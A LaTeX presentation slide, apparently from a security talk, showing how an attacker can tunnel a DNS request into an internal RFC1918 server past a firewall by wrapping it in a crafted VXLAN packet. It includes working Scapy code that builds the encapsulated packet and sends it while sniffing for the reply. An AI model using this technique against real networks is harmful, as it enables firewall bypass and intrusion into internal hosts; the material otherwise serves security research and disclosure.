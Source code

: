 \documentclass[Screen16to9,17pt]{foils}
\begin{document}
{\footnotesize Attacker can send UDP DNS request to inside server on RFC1918 destination\\
Note: server has no external IP or incoming ports forwarded.\\
Tested working with Clavister with DNS UDP probes/requests, no inspection }



First create VXLAN header and inside packet
\begin{verbatim}
vxlanport=4789     # RFC 7384 port 4789, Linux kernel default 8472
vni=37             # Usually VNI == destination VLAN
vxlan=Ether(dst=routermac)/IP(src=vtepsrc,dst=vtepdst)/
   UDP(sport=vxlanport,dport=vxlanport)/VXLAN(vni=vni,flags="Instance")
broadcastmac="ff:ff:ff:ff:ff:ff"
randommac="00:51:52:01:02:03"
attacker="185.27.115.666"
destination="10.0.0.10"
# port is the one we want to contact inside the firewall
insideport=53
testport=54040
packet=vxlan/Ether(dst=broadcastmac,src=randommac)/IP(src=attacker,
    dst=destination)/UDP(sport=testport,dport=insideport)/
    DNS(rd=1,id=0xdead,qd=DNSQR(qname="www.wikipedia.org"))
\end{verbatim}

{\footnotesize Fun fact, Unbound on OpenBSD reply to DNS requests received in Ethernet packets with broadcast destination and IP destination being the IP of the server}




Send and then wait for something, not from same IP bc from\\
inside NAT, but port should be OK
\begin{verbatim}
pid = os.fork()
if pid:
    print "parent: setting up sniffing"
    # Wait for UDP packet
    data = sniff(filter="udp and port 54040 and net 192.0.2.0/24", count=1)
else:
    time.sleep(10)
    print "child: sending packet"
    sendp(packet,loop=0)
    print "child: closing"
    sys.exit(0)
data[0].show()
\end{verbatim}

Source port in the inside request packet, becomes the destination port in replies from the server - 54040


\end{document}
